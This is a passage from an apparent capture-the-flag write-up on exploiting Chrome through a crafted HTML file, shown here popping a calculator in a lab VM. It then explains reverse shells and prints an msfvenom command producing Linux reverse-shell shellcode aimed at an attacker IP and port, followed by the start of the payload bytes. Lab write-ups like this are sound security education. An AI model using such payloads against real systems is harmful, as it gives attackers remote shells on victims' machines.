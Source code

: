 And then open our crafted HTML file:

![xcalc opened up on top of Chrome](./chrome-1.png "Opening this website in Chrome suddenly opened xcalc, weird. I'm sure that's nothing to worry about")

How exciting, we've just owned ourselves!

To ensure that the testing environment reasonably accurately reflects the target environment, a Ubuntu VM was also created for testing the exploit. In the gif below, the victim on the left in the VM, attacker on the right. Click for a better resolution .webm file (they don't embed into Markdown correctly).

[![Short video of clicking a link in Chrome and xcalc launching in a demo Ubuntu VM](./ubuntu-calc.gif "Click for a better resolution .webm")](./ubuntu-calc.webm)


## Better than calc

The next best thing after popping calc is ~~popping two calculators~~ getting a shell on your victim's system! A reverse shell is, simply put, a shell that connects from the victim back to the listening attacker (as opposed to a bind shell, where the victim opens a socket and listens for input to execute). I'm a fan of (and contributer to) the [Metasploit Framework](https://github.com/rapid7/metasploit-framework) project, and one of the things it can do really well is generate the bytecode necessary to create a reverse shell. In short, it will generate and compile extremely minimal C code that will open a network socket that communicates back to our listening computer, and redirect STDIN, STDOUT and STDERR of a new bash process to that socket - effectively giving whatever receives that connection the ability to interact with bash.
```console?comments=true
kali@kali:~/htb/ropetwo$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f num
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of num file: 796 bytes
0x48, 0x31, 0xff, 0x6a, 0x09, 0x58, 0x99, 0xb6, 0x10, 0x48, 0x89, 0xd6, 0x4d, 0x31, 0xc9,
0x6a, 0x22, 0x41, 0x5a, 0xb2, 0x07, 0x0f, 0x05, 0x48, 0x85, 0xc0, 0x78, 0x51, 0x6a, 0x0a,
0x41, 0x59, 0x50, 0x6a, 0x29, 0x58, 0x99, 0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x0f, 0x05,
0x48, 0x85, 0xc0, 0x78, 0x3b, 0x48, 0x97, 0x48, 0xb9, 0x02, 0x00, 0x11, 0x5c, 0x0a, 0x0a,
0x0e, 0x06, 0x51, 0x48, 0x89, 0xe6, 0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05, 0x59,
0x48, 0x85, 0xc0, 0x79, 0x25, 0x49, 0xff, 0xc9, 0x74, 0x18, 0x57, 0x6a, 0x23, 0x58, 0x6a,
```